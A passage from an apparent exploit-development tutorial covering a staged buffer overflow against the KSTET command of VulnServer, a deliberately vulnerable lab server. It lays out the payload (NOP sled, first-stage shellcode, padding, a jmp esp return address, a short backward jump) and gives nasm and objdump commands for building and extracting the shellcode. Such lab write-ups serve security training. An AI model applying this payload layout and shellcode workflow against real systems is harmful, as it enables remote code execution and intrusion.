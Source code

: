```
         |----------------------------------|
         | b'KSTET '                        |
         |----------------------------------|
         | b'\x90' * 8                      |
         |----------------------------------|
         | STAGE1                           |
         |----------------------------------|
         | b'A' * (58 - 8 - len(STAGE1))    |
         |----------------------------------|
         | struct.pack('<L', 0x62501023)    |
         | ---------------------------------|
         | b'\xeb\xc5'                      |
ESP ->   |----------------------------------| 
         | b'C' * (24)                      |
         |----------------------------------|

```


 
5. Use [`nasm`](https://nasm.us/) on the *Kali Linux* machine to compile the assembly into the appropriate shellcode.
	1) Ensure nasm is installed, if not you will need to [install it](https://nasm.us/) and add it to the path.

		<img src="Images/I31.png" width=800>

	2) Run nasm on the target assembly, Run: `nasm -f elf32 -o shellcode.o shellcode.asm`.
		* `nasm`: Netwide Assembler, which is used to assemble the provided assembly into x86 machine code.
		* `-f elf32`: Specify the elf32 format.
		* `-o shellcode.o`: Shellcode File output.
		* `shellcode.asm`: Input file.
6) Now, we can extract the binary with a simple [shell script](./SourceCode/extract.sh).
	```sh
	for i in $(objdump -d shellcode.o -M intel | grep "^ " | cut -f2); do
		echo -n '\x'$i;
	done;
	echo
	```
	* `for i in`: For each value `$i` generated by the following command.
	* `objdump -d shellcode.o -M intel | grep "^ " | cut -f2`: Extracts the hex shellcode.
		* `objdump -d shellcode.o -M intel`: Dump the assembly of the object file compiled for Intel format.
		* `grep "^ "`: Extract only those lines containing assembly.
		* `cut -f2`: Extract the second field, this contains the hex representation of the instructions.
	* ` do echo -n '\x'$i; done`: Echo the hex extracted in the format `\x<HexValue>`.
	* `echo`: Print an extra line.
	* **Note**: If you create this file be sure to make it executable `chmod +x extract.sh`, then you can run it using the command `./extract.sh`.

	<img src="Images/I32.png" width=800>
#### Staging
1. Now we can add our first stage shell code to the [exploit5.py](./SourceCode/exploit5.py), we can then set a breakpoint at the `jmp esp` instruction we chose earlier and ensure that it works properly! This will allow us to verify the first stage of the shellcode is located where we expect it to be, and that it executes properly.
